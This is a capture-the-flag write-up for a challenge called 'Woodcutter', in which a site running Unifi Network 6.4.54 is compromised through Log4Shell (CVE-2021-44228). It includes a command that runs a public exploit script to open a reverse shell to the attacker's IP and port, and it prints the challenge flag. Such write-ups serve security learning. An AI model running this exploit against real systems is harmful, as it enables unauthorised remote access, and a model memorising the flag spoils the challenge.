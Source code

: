 # Woodcutter
> Once upon a time in a quiet forest village, lived a woodcutter named Tom known for his exceptional axe skills. A stranger named Mr. Smith, a software engineer, approached Tom, seeking wood for his Java project, unknowingly sparking an unlikely adventure at the intersection of nature and technology.

## About the Challenge
We were given a website that uses `Unifi Network` version `6.4.54`

![preview](images/preview.png)

## How to Solve?
Because of the website is using older version of the Unifi network, I immediately searched on Google using the following keyword

```
Unifi 6.4.54 exploit
```

![google](images/google.png)

It appears that this version is vulnerable to the Log4j vulnerability (CVE-2021-44228). To exploit the website, I am using this [GitHub Repository](https://github.com/puzzlepeaches/Log4jUnifi) to perform a reverse shell by running this command

```
python3 exploit.py -u https://woodcutter.winja.org -i <IP> -p <PORT>
```

And then check our server and voilà! To obtain the flag we need to run `cat /flag.txt` command

![flag](images/flag.png)

```
flag{0c6ad466c5800fe77ec1435a38870548_Lo94J-0K3S-4-TH0N}
```